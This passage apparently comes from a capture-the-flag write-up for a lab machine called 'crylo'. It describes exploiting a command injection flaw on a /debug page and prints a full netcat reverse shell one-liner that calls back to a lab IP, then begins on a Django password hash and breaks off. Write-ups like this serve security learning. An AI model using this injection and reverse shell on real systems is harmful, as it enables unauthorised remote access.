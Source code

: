 ## Become crylo

### Exploit cli

With access to the `/debug` page we find a tool for testing services. 

There is a pretty straightforward command line injection flaw in this page, we just supply a port number, semicolon and a linux command. For clean output, choose a port that isn’t associated with anything. 

![Screenshot 2023-08-12 at 7.29.55 PM.png](/assets/crylo/Screenshot_2023-08-12_at_7.29.55_PM.png)

We’ll send a reverse shell through the cli. I used:

`rm -f /tmp/b; mkfifo /tmp/b; /bin/sh -i 2>&1 0</tmp/b | nc 10.6.1.1 4444 1>/tmp/b`

From our reverse shell we can capture the user flag.

## Become anof

There is a dump of the Django database in anof’s home directory. Just as in our sqli attack Anof’s password in the `auth_user` table does not match the expected format.  [Older Django versions used unsalted MD5](https://code.djangoproject.com/ticket/18144) but the hash doesn’t come back as an MD5 hash either .       

